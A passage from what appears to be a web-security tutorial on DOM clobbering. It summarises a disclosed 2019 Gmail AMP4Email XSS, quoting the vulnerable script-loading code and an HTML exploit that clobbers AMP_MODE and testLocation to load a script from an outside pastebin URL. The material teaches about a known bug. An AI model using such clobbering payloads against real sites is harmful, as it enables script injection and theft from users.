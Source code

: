 As for the previously mentioned Sanitizer API, the [specification](https://wicg.github.io/sanitizer-api/#dom-clobbering) explicitly states: "The Sanitizer API does not protect DOM clobbering attacks in its default state." It does not provide protection against DOM clobbering by default.

## Case Study: Gmail AMP4Email XSS

In 2019, there was a vulnerability in Gmail that could be exploited through DOM clobbering. A comprehensive write-up can be found here: [XSS in GMail’s AMP4Email via DOM Clobbering](https://research.securitum.com/xss-in-amp4email-dom-clobbering). Below, I will briefly explain the process (content sourced from the aforementioned article).

In Gmail, you can use some AMP features, and Google has a strict validator for this format, making it difficult to perform XSS attacks using conventional methods.

However, someone discovered that it was possible to set an id on an HTML element. They found that when they set `<a id="AMP_MODE">`, an error occurred in the console, indicating a script loading error with a portion of the URL being `undefined`. After studying the code carefully, they found a code snippet that looked like this:

``` js
var script = window.document.createElement("script");
script.async = false;

var loc;
if (AMP_MODE.test && window.testLocation) {
    loc = window.testLocation
} else {
    loc = window.location;
}

if (AMP_MODE.localDev) {
    loc = loc.protocol + "//" + loc.host + "/dist"
} else {
    loc = "https://cdn.ampproject.org";
}

var singlePass = AMP_MODE.singlePassType ? AMP_MODE.singlePassType + "/" : "";
b.src = loc + "/rtv/" + AMP_MODE.rtvVersion; + "/" + singlePass + "v0/" + pluginName + ".js";

document.head.appendChild(b);
```

If we can make both `AMP_MODE.test` and `AMP_MODE.localDev` truthy, and set `window.testLocation`, we can load any script we want!

So, the exploit would look like this:

``` html
// clobber AMP_MODE.test and AMP_MODE.localDev
<a id="AMP_MODE" name="localDev"></a>
<a id="AMP_MODE" name="test"></a>

// set testLocation.protocol
<a id="testLocation"></a>
<a id="testLocation" name="protocol" 
   href="https://pastebin.com/raw/0tn8z0rG#"></a>
```
